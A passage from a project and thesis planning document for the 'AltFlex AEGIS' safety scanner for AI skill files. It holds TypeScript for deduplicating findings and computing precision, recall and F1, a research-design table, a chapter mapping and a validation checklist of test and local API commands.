    return Math.min(0.5 + categoryBonus + severityConfidence, 1.0);
  }
  private deduplicateFindings(findings: Finding[]): Finding[] {
    const seen = new Set<string>();
    return findings.filter((f) => {
      const key = `${f.ruleId}:${f.matchedText}`;
      if (seen.has(key)) return false;
      seen.add(key);
      return true;
    });
  }
}
export interface Finding {
  ruleId: string;
  ruleName: string;
  category: string;
  severity: string;
  description: string;
  matchedText: string;
  location: { section: string; line?: number; column?: number };
  context: string;
  confidence: number;
}
export interface ScanVerdict {
  label: SafetyLabel;
  score: number;
  confidence: number;
  findings: Finding[];
}
```

---

## Evaluation Framework

### Implementation

```typescript
// packages/skills-engine/src/evaluation/ScannerEvaluator.ts
import { SafetyLabel } from '@aegis/core';
/**
 * ScannerEvaluator — Runs the scanner against a labeled dataset
 * and computes classification metrics.
 *
 * Produces a thesis-appendix-ready evaluation report.
 *
 * @academic This is the core evaluation methodology for Thesis 1.
 */
export class ScannerEvaluator {
  evaluate(results: EvaluationSample[]): EvaluationReport {
    const labels: SafetyLabel[] = [SafetyLabel.SAFE, SafetyLabel.SUSPICIOUS, SafetyLabel.MALICIOUS];
    // Build confusion matrix
    const matrix: Record<string, Record<string, number>> = {};
    for (const actual of labels) {
      matrix[actual] = {};
      for (const predicted of labels) {
        matrix[actual][predicted] = 0;
      }
    }
    for (const sample of results) {
      matrix[sample.actualLabel][sample.predictedLabel]++;
    }
    // Compute per-label metrics
    const perLabel: LabelMetrics[] = labels.map((label) => {
      const tp = matrix[label][label];
      const fp = labels.filter((l) => l !== label).reduce((s, l) => s + matrix[l][label], 0);
      const fn = labels.filter((l) => l !== label).reduce((s, l) => s + matrix[label][l], 0);
      const precision = tp + fp > 0 ? tp / (tp + fp) : 0;
      const recall = tp + fn > 0 ? tp / (tp + fn) : 0;
      const f1 = precision + recall > 0 ? (2 * (precision * recall)) / (precision + recall) : 0;
      return { label, precision, recall, f1, support: tp + fn };
    });
    // Macro averages
    const macroPrecision = perLabel.reduce((s, m) => s + m.precision, 0) / labels.length;
    const macroRecall = perLabel.reduce((s, m) => s + m.recall, 0) / labels.length;
    const macroF1 = perLabel.reduce((s, m) => s + m.f1, 0) / labels.length;
    return {
      totalSamples: results.length,
      accuracy: results.filter((r) => r.actualLabel === r.predictedLabel).length / results.length,
      perLabel,
      macroAvg: { precision: macroPrecision, recall: macroRecall, f1: macroF1 },
      confusionMatrix: matrix,
      falsePositives: results.filter(
        (r) => r.actualLabel === SafetyLabel.SAFE && r.predictedLabel !== SafetyLabel.SAFE,
      ),
      falseNegatives: results.filter(
        (r) => r.actualLabel === SafetyLabel.MALICIOUS && r.predictedLabel === SafetyLabel.SAFE,
      ),
    };
  }
  /**
   * Generate thesis-appendix-ready markdown report.
   */
  generateReport(report: EvaluationReport, scannerVersion: string): string {
    let md = `# AltFlex AEGIS Safety Scanner — Evaluation Report\n\n`;
    md += `**Scanner Version**: ${scannerVersion}\n`;
    md += `**Total Samples**: ${report.totalSamples}\n`;
    md += `**Overall Accuracy**: ${(report.accuracy * 100).toFixed(1)}%\n\n`;
    md += `## Per-Label Metrics\n\n`;
    md += `| Label | Precision | Recall | F1 | Support |\n`;
    md += `|-------|-----------|--------|----|---------|\n`;
    for (const m of report.perLabel) {
      md += `| ${m.label} | ${m.precision.toFixed(3)} | ${m.recall.toFixed(3)} | ${m.f1.toFixed(3)} | ${m.support} |\n`;
    }
    md += `| **Macro Avg** | **${report.macroAvg.precision.toFixed(3)}** | **${report.macroAvg.recall.toFixed(3)}** | **${report.macroAvg.f1.toFixed(3)}** | ${report.totalSamples} |\n\n`;
    if (report.falseNegatives.length > 0) {
      md += `## ⚠️ False Negatives (Critical)\n\n`;
      md += `These malicious samples were incorrectly labeled as safe:\n\n`;
      for (const fn of report.falseNegatives) {
        md += `- **${fn.sampleId}**: Predicted ${fn.predictedLabel}, Actual ${fn.actualLabel}\n`;
      }
    }
    return md;
  }
}
interface EvaluationSample {
  sampleId: string;
  actualLabel: SafetyLabel;
  predictedLabel: SafetyLabel;
  score: number;
  findingsCount: number;
}
interface EvaluationReport {
  totalSamples: number;
  accuracy: number;
  perLabel: LabelMetrics[];
  macroAvg: { precision: number; recall: number; f1: number };
  confusionMatrix: Record<string, Record<string, number>>;
  falsePositives: EvaluationSample[];
  falseNegatives: EvaluationSample[];
}
interface LabelMetrics {
  label: SafetyLabel;
  precision: number;
  recall: number;
  f1: number;
  support: number;
}
```

---

## Thesis Methodology Notes

### Research Design

| Element                  | Detail                                                          |
| ------------------------ | --------------------------------------------------------------- |
| **Research Approach**    | Constructive research — design and evaluate an artifact         |
| **Artifact**             | Multi-layered static analysis pipeline for AI skill file safety |
| **Independent Variable** | Analysis rules (regex, AST, semantic) and their configurations  |
| **Dependent Variable**   | Classification accuracy (Precision, Recall, F1)                 |
| **Dataset**              | 100+ labeled skill files (human-annotated ground truth)         |
| **Evaluation**           | Quantitative — confusion matrix, per-class metrics              |
| **Threats to Validity**  | Dataset size, label subjectivity, adversarial evasion           |

### Thesis Chapter Mapping

| Thesis Chapter            | Phase 3 Deliverable                                                   |
| ------------------------- | --------------------------------------------------------------------- |
| Chapter 3: Methodology    | Rule definition schema, scanner architecture, evaluation design       |
| Chapter 4: Implementation | Content parser, regex matcher, AST analyzer, semantic analyzer        |
| Chapter 5: Results        | Evaluation report (P/R/F1), confusion matrix, false positive analysis |
| Chapter 6: Discussion     | Threshold sensitivity, adversarial evasion, limitations               |
| Appendix A                | Full rule definitions (30 rules)                                      |
| Appendix B                | Labeled dataset documentation                                         |
| Appendix C                | Evaluation report (machine-generated)                                 |

---

## Validation Checklist

```bash
# 1. Rule loading
pnpm --filter skills-engine run test:rules
# ✅ All 30+ rules validate against SafetyRuleSchema
# 2. Content parser
pnpm --filter skills-engine run test:parser
# ✅ All 4 formats parse correctly, adversarial inputs handled
# 3. Scanner pipeline
pnpm --filter skills-engine run test:scanner
# ✅ Full pipeline runs end-to-end
# 4. Scan all indexed skills
pnpm --filter skills-engine run scan:all
# ✅ No UNANALYZED labels remaining
# 5. Evaluation
pnpm --filter skills-engine run evaluate
# ✅ Precision ≥ 0.90, Recall ≥ 0.85, F1 ≥ 0.87
# 6. Zero critical false negatives
pnpm --filter skills-engine run evaluate:check-critical
# ✅ 0 malicious samples labeled as safe
# 7. API endpoints
curl http://localhost:4000/api/v1/skills/stats | jq '.bySafetyLabel'
# ✅ Shows distribution across safe/suspicious/malicious
# 8. Safety scan trigger
curl -X POST http://localhost:4000/api/v1/skills/scan \
-H "X-API-Key: $API_KEY" \
-H "Content-Type: application/json" \
-d '{"skillId": "..."}'
# ✅ Returns jobId
# 9. Scan results query
curl http://localhost:4000/api/v1/skills/:id/safety
# ✅ Returns scan verdict with findings
# 10. Tests
pnpm run test
# ✅ ≥150 new tests pass, 0 failures
# 11. Evaluation report
cat packages/skills-engine/evaluation-report.md
# ✅ Thesis-appendix-ready format
```

---

## What's Next: Phase 4

Once Phase 3 validation is complete, Phase 4 (Frontend Implementation) will deliver:

- 🎨 **Hacks Dashboard UI** — Data table, filter sidebar, charts, stats cards
- 🎨 **AI Skills Explorer UI** — Skill cards, safety badges, copy-to-clipboard, search
- 🎨 **Safety Dashboard** — Rule performance, label distribution, scan timeline
- 🎨 **Responsive Design** — Mobile-first, dark mode, micro-animations
  > **⚠️ Phase 4 is gated on Phase 3 completion. The frontend depends on complete, verified API endpoints and safety scan data.**

---

_Document Version: 3.3.0_
_Author: AltFlex AEGIS Engineering_
_Last Updated: March 2026_
